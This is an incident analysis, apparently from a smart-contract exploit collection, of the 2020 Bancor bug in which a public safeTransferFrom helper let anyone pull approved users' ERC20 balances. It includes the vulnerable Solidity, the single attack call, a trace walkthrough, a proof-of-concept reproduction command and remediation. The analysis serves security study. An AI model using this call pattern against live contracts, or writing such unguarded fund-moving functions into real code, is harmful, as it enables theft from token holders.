


# Bancor Network Exploit — Public `safeTransferFrom` Drains Any Approved User

> One-line summary: A newly deployed `BancorNetwork` contract inherited the
> `TokenHandler.safeTransferFrom` helper as a **`public`** function with **no access control**,
> so anyone could route a `transferFrom` through Bancor and steal the full balance of any user
> who had granted Bancor an ERC20 allowance.

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains many unrelated PoCs that do
> not whole-compile, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [BancorNetwork.sol](sources/BancorNetwork_5f5805/BancorNetwork.sol)
> (the `TokenHandler` base contract). Victim token source:
> [XBPToken.sol](sources/XBPToken_28dee0/XBPToken.sol).

---

## Key info

| | |
|---|---|
| **Loss** | All ERC20 balances of any user who had an open allowance to the vulnerable Bancor contract. In this PoC: **905,987.98 XBP** drained from a single victim (one of many affected addresses). |
| **Vulnerable contract** | `BancorNetwork` (inherits `TokenHandler`) — [`0x5f58058C0eC971492166763c8C22632B583F667f`](https://etherscan.io/address/0x5f58058C0eC971492166763c8C22632B583F667f#code) |
| **Victim (this PoC)** | EOA `0xfd0B4DAa7bA535741E6B5Ba28Cba24F9a816E67E` — held 905,987.98 XBP and had approved Bancor |
| **Token drained (this PoC)** | `XBPToken` (XBP) — [`0x28dee01D53FED0Edf5f6E310BF8Ef9311513Ae40`](https://etherscan.io/address/0x28dee01D53FED0Edf5f6E310BF8Ef9311513Ae40#code) |
| **Attacker** | The white-hat / black-hat caller — any EOA; in the live incident the BProtocol/whitehat group and copycats raced to sweep funds |
| **Example attack tx** | [`0x4643b63dcbfc385b8ab8c86cbc46da18c2e43d277de3e5bc3b4516d3c0fdeb9f`](https://etherscan.io/tx/0x4643b63dcbfc385b8ab8c86cbc46da18c2e43d277de3e5bc3b4516d3c0fdeb9f) |
| **Chain / fork block / date** | Ethereum mainnet / **10,307,563** / June 18, 2020 |
| **Compiler** | `BancorNetwork`: Solidity **v0.4.26**, optimizer 200 runs · `XBPToken`: v0.4.19 |
| **Bug class** | Missing access control / over-broad visibility (`public` instead of `internal`) on a privileged token-moving helper |

---

## TL;DR

Bancor's `TokenHandler` base contract wraps raw ERC20 calls in a low-level `call` so that
non-standard tokens (no boolean return) don't fail silently. It exposes three helpers:
`safeApprove`, `safeTransfer`, and **`safeTransferFrom`** — and all three were declared
**`public`** ([BancorNetwork.sol:520-549](sources/BancorNetwork_5f5805/BancorNetwork.sol#L520-L549)).

`BancorNetwork` inherits `TokenHandler` (via `TokenHolder`), so the deployed network contract at
`0x5f58…667f` exposed `safeTransferFrom(token, from, to, value)` as a callable external entry point
with **no `onlyOwner`, no `onlySelf`, no internal-call guard**.

These helpers were *intended* to be called only internally during a conversion (when the protocol
already holds an allowance from the user for the conversion flow). But because the function is
`public`, **any address** could call:

```solidity
bancor.safeTransferFrom(victimToken, victim, attacker, victimBalance);
```

The call makes `BancorNetwork` (the `msg.sender` seen by the token) invoke `token.transferFrom(victim, attacker, value)`.
Since the victim had granted `BancorNetwork` a large allowance — a normal step before using Bancor —
the transfer succeeds and the attacker walks away with the victim's tokens. No exploit contract, no
flash loan, no math trick: a single function call per victim/token pair.

In this PoC the victim's full **905,987.98 XBP** balance moves to the attacker in one call.

---

## Background — what Bancor's `TokenHandler` is for

Bancor is an on-chain conversion network. To convert token A → token B, a user first `approve`s the
`BancorNetwork` contract to pull token A, then calls a conversion function. Internally Bancor moves
the source token into its converters using "safe" wrappers that tolerate the many non-ERC20-compliant
tokens of the 2017–2020 era (tokens whose `transfer`/`transferFrom` return nothing instead of a
`bool`).

`TokenHandler` ([BancorNetwork.sol:506-579](sources/BancorNetwork_5f5805/BancorNetwork.sol#L506-L579))
centralises that logic:

- `safeApprove`, `safeTransfer`, `safeTransferFrom` build the ABI-encoded calldata for the
  corresponding ERC20 selector and pass it to a private `execute()`.
- `execute()` ([:559-578](sources/BancorNetwork_5f5805/BancorNetwork.sol#L559-L578)) does a raw
  `assembly { call(...) }`, reverts if the call fails, and then `require(ret[0] != 0)` — interpreting
  a zero (or absent) return as failure. This is the "don't fail silently" feature.

The inheritance chain that makes the helper reachable on the live network contract:

```
BancorNetwork  is  TokenHolder, ContractRegistryClient, ReentrancyGuard      (line 771)
TokenHolder    is  ITokenHolder, TokenHandler, Owned, Utils                  (line 601)
TokenHandler   {  public safeApprove / safeTransfer / safeTransferFrom  }     (line 506)
```

So `safeTransferFrom` is a first-class public method of the deployed `BancorNetwork`.

---

## The vulnerable code

From [`sources/BancorNetwork_5f5805/BancorNetwork.sol`](sources/BancorNetwork_5f5805/BancorNetwork.sol):

### The three `public` helpers ([:506-549](sources/BancorNetwork_5f5805/BancorNetwork.sol#L506-L549))

```solidity
contract TokenHandler {
    bytes4 private constant APPROVE_FUNC_SELECTOR       = bytes4(keccak256("approve(address,uint256)"));
    bytes4 private constant TRANSFER_FUNC_SELECTOR      = bytes4(keccak256("transfer(address,uint256)"));
    bytes4 private constant TRANSFER_FROM_FUNC_SELECTOR = bytes4(keccak256("transferFrom(address,address,uint256)"));

    function safeApprove(IERC20Token _token, address _spender, uint256 _value) public {        // ⚠️ public
       execute(_token, abi.encodeWithSelector(APPROVE_FUNC_SELECTOR, _spender, _value));
    }

    function safeTransfer(IERC20Token _token, address _to, uint256 _value) public {            // ⚠️ public
       execute(_token, abi.encodeWithSelector(TRANSFER_FUNC_SELECTOR, _to, _value));
    }

    function safeTransferFrom(IERC20Token _token, address _from, address _to, uint256 _value) public {  // ⚠️ public
       execute(_token, abi.encodeWithSelector(TRANSFER_FROM_FUNC_SELECTOR, _from, _to, _value));
    }
```

### The private executor that actually moves the tokens ([:559-578](sources/BancorNetwork_5f5805/BancorNetwork.sol#L559-L578))

```solidity
function execute(IERC20Token _token, bytes memory _data) private {
    uint256[1] memory ret = [uint256(1)];
    assembly {
        let success := call(gas, _token, 0, add(_data, 32), mload(_data), ret, 32)
        if iszero(success) { revert(0, 0) }
    }
    require(ret[0] != 0, "ERR_TRANSFER_FAILED");
}
```

When `safeTransferFrom(XBP, victim, attacker, value)` runs, `execute` makes the
**`BancorNetwork` contract** call `XBP.transferFrom(victim, attacker, value)`. The token sees
`msg.sender == BancorNetwork`, checks `allowance[victim][BancorNetwork]`, and — because the victim had
approved Bancor — performs the transfer.

### The victim token's `transferFrom` ([XBPToken.sol:275-288](sources/XBPToken_28dee0/XBPToken.sol#L275-L288))

```solidity
function transferFrom(address _from, address _to, uint256 _value) public ... returns (bool success) {
    allowance[_from][msg.sender] = allowance[_from][msg.sender].sub(_value);  // msg.sender == BancorNetwork
    balanceOf[_from]            = balanceOf[_from].sub(_value);               // victim debited
    balanceOf[_to]              = balanceOf[_to].add(_value);                 // attacker credited
    Transfer(_from, _to, _value);
    return true;
}
```

There is nothing wrong with XBP. The bug is entirely that Bancor lets an arbitrary caller decide the
`_from`, `_to`, and `_value` of a `transferFrom` that Bancor itself signs as `msg.sender`.

---

## Root cause — why it was possible

The single root cause is **incorrect function visibility**: helper functions that move user funds were
declared `public` instead of `internal`.

`safeTransferFrom` was only ever meant to be invoked **from inside** Bancor's own conversion flow
(e.g. [`safeTransferFrom(_sourceToken, msg.sender, firstConverter, _amount)` at line 1204](sources/BancorNetwork_5f5805/BancorNetwork.sol#L1204)),
where `_from` is hard-coded to `msg.sender` (the user who initiated the conversion) and `_to` is a
trusted converter. In that intended context the user can only move *their own* tokens to a Bancor
converter.

But `public` visibility turns the helper into a **general-purpose "move anyone's approved tokens
anywhere" primitive**:

1. **Caller-controlled `_from`.** A public `safeTransferFrom` lets the *external caller* pick `_from`,
   so the attacker substitutes a victim's address for `msg.sender`.
2. **Bancor is the `msg.sender` to the token.** The allowance that matters is `allowance[victim][Bancor]`,
   not `allowance[victim][attacker]`. The attacker piggybacks on Bancor's authority.
3. **Allowances were broad and standing.** Bancor users routinely `approve` the network for very large
   (often effectively unlimited) amounts so they don't have to re-approve every conversion. In this PoC
   the victim's allowance to Bancor was `30,517,969,405,419,767,184,741,663,587,441,118` wei
   (≈ 3.05e34) — far more than their 9.06e23-wei balance — so the whole balance was sweepable.
4. **No guard distinguishes internal vs. external calls.** There is no `require(msg.sender == address(this))`,
   no `onlyOwner`, no reentrancy/self-call check on these helpers, so the internal-only assumption is
   completely unenforced.

This was a regression introduced in a freshly deployed batch of Bancor contracts. The corrected
version of `TokenHandler` declares these helpers `internal`, which is exactly the fix.

---

## Preconditions

The exploit is trivial; the only requirements are:

- A victim who has an **open ERC20 allowance** to the vulnerable Bancor contract
  (`allowance[victim][0x5f58…667f] > 0`) — true for essentially everyone who had ever used Bancor.
- The victim holds a **non-zero balance** of that token.
- The vulnerable Bancor contract is the one that inherited `public` `safeTransferFrom` (this specific
  deployment at `0x5f58…667f`).

No flash loan, no price manipulation, no special timing. Each `(victim, token)` pair is drained with a
single `safeTransferFrom` call, capped at `min(balance, allowance)`.

---

## Step-by-step attack walkthrough (with on-chain numbers from the trace)

All figures are taken directly from [output.txt](output.txt). Token amounts are raw 18-decimal XBP wei;
"XBP" figures are `wei / 1e18`.

| # | Step | Actor | Concrete values (from trace) | Effect |
|---|------|-------|------------------------------|--------|
| 0 | **Observe victim allowance** | anyone | `XBP.allowance(victim, Bancor)` = `30,517,969,405,419,767,184,741,663,587,441,118` wei (≈ 3.05e34) | Victim has a huge standing approval to Bancor. |
| 1 | **Observe victim balance** | anyone | `XBP.balanceOf(victim)` = `905,987,977,635,678,910,008,152` wei = **905,987.98 XBP** | The prize. |
| 2 | **Observe attacker balance** | anyone | `XBP.balanceOf(attacker)` = **0** | Starting from nothing. |
| 3 | **Call the public helper** | attacker | `Bancor.safeTransferFrom(XBP, victim, attacker, 905,987,977,635,678,910,008,152)` | Bancor signs a `transferFrom` pulling the victim's full balance. |
| 4 | **Bancor → XBP.transferFrom** | Bancor (as `msg.sender`) | `XBP.transferFrom(victim, attacker, 905,987,977,635,678,910,008,152)` → `true` | Storage: victim balance `0xbfd9b4e8f99ec359cb58` → `0`; attacker balance `0` → `0xbfd9b4e8f99ec359cb58`; allowance slot decremented. |
| 5 | **Confirm** | anyone | victim balance now **0**, attacker balance **905,987.98 XBP** | Theft complete in one tx. |

The raw storage diff in the trace makes step 4 unambiguous
([output.txt:36-39](output.txt)):

```
@ 0xab39…1ebc  (victim balanceOf)   : 0x…bfd9b4e8f99ec359cb58 → 0
@ 0xed79…b5d9  (attacker balanceOf) : 0                        → 0x…bfd9b4e8f99ec359cb58
@ 0x66b8…3eaf  (allowance slot)     : 0x…72a6517b17e46772d419de → 0x…71e677c62eeac8af7a4e86   (decremented by value)
```

`0xbfd9b4e8f99ec359cb58` = `905,987,977,635,678,910,008,152` — the victim's entire balance, moved to
the attacker.

### Profit / loss accounting (this PoC)

| | Token | Amount |
|---|---|---:|
| Victim loss | XBP | −905,987.98 |
| Attacker gain | XBP | +905,987.98 |
| Cost to attacker | — | one `safeTransferFrom` call (gas only) |

In the real incident this was repeated across **every** affected `(user, token)` pair, totaling a
larger aggregate; white-hats (BProtocol et al.) ran the same call to rescue funds ahead of malicious
actors, and the example tx above is one such sweep.

---

## Diagrams

### Sequence of the attack

```mermaid
sequenceDiagram
    autonumber
    actor A as "Attacker (any EOA)"
    participant B as "BancorNetwork (0x5f58…667f)"
    participant T as "XBPToken (0x28de…Ae40)"
    participant V as "Victim (0xfd0B…E67E)"

    Note over V,B: "Precondition: Victim previously approved Bancor<br/>allowance(victim, Bancor) ≈ 3.05e34 wei"
    Note over V: "Victim balance = 905,987.98 XBP"

    A->>T: "allowance(victim, Bancor) — read (3.05e34)"
    A->>T: "balanceOf(victim) — read (905,987.98 XBP)"

    rect rgb(255,235,238)
    Note over A,T: "The exploit — one public call"
    A->>B: "safeTransferFrom(XBP, victim, attacker, 905,987.98 XBP)"
    Note over B: "public, no access control,<br/>caller picks _from / _to / _value"
    B->>T: "transferFrom(victim, attacker, 905,987.98 XBP)<br/>(msg.sender = Bancor)"
    T->>T: "allowance[victim][Bancor] -= value<br/>balanceOf[victim] -= value<br/>balanceOf[attacker] += value"
    T-->>B: "true"
    B-->>A: "ok"
    end

    Note over A: "Attacker now holds 905,987.98 XBP;<br/>victim holds 0"
```

### Why a public helper became a universal token-drainer



### State change of the victim and attacker balances



---

## Remediation

1. **Make the helpers `internal`.** The one-line root-cause fix: declare `safeApprove`,
   `safeTransfer`, and `safeTransferFrom` as `internal` in `TokenHandler`
   ([:520-549](sources/BancorNetwork_5f5805/BancorNetwork.sol#L520-L549)). They are utility wrappers
   for the protocol's own flows and must never be externally reachable. This is precisely the fix
   Bancor shipped after the incident.
2. **Never let an external caller choose `_from` for a `transferFrom` that the contract authorizes.**
   In every internal use site Bancor already hard-codes `_from = msg.sender`
   (e.g. [:1193](sources/BancorNetwork_5f5805/BancorNetwork.sol#L1193),
   [:1204](sources/BancorNetwork_5f5805/BancorNetwork.sol#L1204)); an externally reachable variant
   must enforce the same constraint or carry explicit access control.
3. **Add a defense-in-depth self-call guard** for low-level token movers — e.g.
   `require(msg.sender == address(this))` or an `onlySelf`/`onlyOwner` modifier — so a future
   visibility regression cannot silently re-open the hole.
4. **Minimize standing allowances.** This is a user/integration-side mitigation: prefer per-transaction
   approvals (or EIP-2612 `permit`) over unbounded `approve`, so a compromised spender cannot drain a
   user's entire balance. (Does not fix the contract bug, but bounds the blast radius.)
5. **CI / review gate on visibility of fund-moving functions.** Treat any `public`/`external`
   function that performs `transferFrom`/`transfer`/`approve` with caller-controlled `_from` as a
   release blocker requiring explicit access-control sign-off.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has many
unrelated PoCs that fail to whole-compile under `forge test`):

```bash
_shared/run_poc.sh 2020-06-Bancor_exp -vvvvv
```

- RPC: an **Ethereum mainnet archive** endpoint is required (fork block **10,307,563** is from June 2020);
  the test uses `createSelectFork("mainnet", 10_307_563)`. Most pruned public RPCs will fail with
  `header not found` / `missing trie node` at that height.
- Test entry point: `testsafeTransfer()` in [test/Bancor_exp.sol](test/Bancor_exp.sol).
- Result: `[PASS] testsafeTransfer()` — the log shows the victim's balance going to 0 and the attacker
  receiving it.

Expected tail (from [output.txt](output.txt)):

```
Ran 1 test for test/Bancor_exp.sol:BancorExploit
[PASS] testsafeTransfer() (gas: 79975)
Logs:
  Victim XBPToken Allowance to Bancor Contract : : 30517969405419767
  [Before Attack]Victim XBPToken Balance : : 905987
  [Before Attack]Attacker XBPToken Balance : : 0
  --------------------------------------------------------------
  [After Attack]Victim XBPToken Balance : : 0
  [After Attack]Attacker XBPToken Balance : : 905987

Suite result: ok. 1 passed; 0 failed; 0 skipped
```

(The logged figures are divided by `1 ether` in the test, so `905987` = 905,987.98 XBP and `30517969405419767`
= the allowance's high-order digits.)

---

*Reference: Bancor "safeTransferFrom" access-control incident, June 18, 2020. The vulnerable function
was an inherited `public` `TokenHandler.safeTransferFrom`; Bancor and white-hats swept at-risk balances,
and the contract was patched to make the helpers `internal`.*
